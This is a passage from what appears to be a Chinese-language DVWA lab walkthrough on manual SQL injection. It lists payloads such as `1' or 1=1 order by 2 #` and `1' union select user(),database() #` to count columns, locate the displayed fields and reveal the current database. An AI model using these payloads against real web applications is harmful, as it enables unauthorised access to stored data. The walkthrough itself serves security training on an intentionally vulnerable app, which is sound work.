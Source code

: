     输入 `1' or 1=1 order by 2 #`,查询成功
    输入 `1' or 1=1 order by 3 #`,查询失败:

    ![](../../../../assets/img/安全/实验/Misc/dvwa/dvwa46.png)

    说明执行的 SQL 查询语句中只有两个字段,即这里的 First name、Surname.
    (这里也可以通过输入 union select 1,2,3… 来猜解字段数)

3. 确定显示的字段顺序

    输入 `1' union select 1,2 #`,查询成功:

    ![](../../../../assets/img/安全/实验/Misc/dvwa/dvwa47.png)

    说明执行的 SQL 语句为 select First name,Surname from 表 where ID=’id’…

4. 获取当前数据库

    输入 `1' union select 1,database() #`,查询成功:

	利用另一种方式 `1' union select user(),database() #`

    ![](../../../../assets/img/安全/实验/Misc/dvwa/dvwa48.png)

    说明当前的数据库为 dvwa.
